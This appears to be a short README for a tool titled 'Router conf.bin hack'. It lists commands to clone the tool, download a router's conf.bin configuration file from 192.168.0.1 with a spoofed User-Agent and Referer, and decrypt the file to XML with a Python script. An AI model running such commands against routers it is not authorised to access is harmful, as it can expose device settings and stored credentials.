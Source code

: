 ```yaml
---
# Router conf.bin hack
---
```


``` apt update && apt upgrade ```

``` git clone https://github.com/princeicon2712/conf.rejaul.git ```

``` cd conf.rejaul ```

``` pip install pycryptodome ```
## Conf.bin file Downlod Nod:

``` wget -d --header="User-Agent: Mozilla/5.0 (Windows NT 6.0) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.97 Safari/537.11" --header="Referer: http://192.168.0.1/mainFrame.htm" --header="Accept-Encoding: compress, gzip" http://192.168.0.1/cgi/conf.bin ```

```python rejaul.py conf.bin conf.xml ```

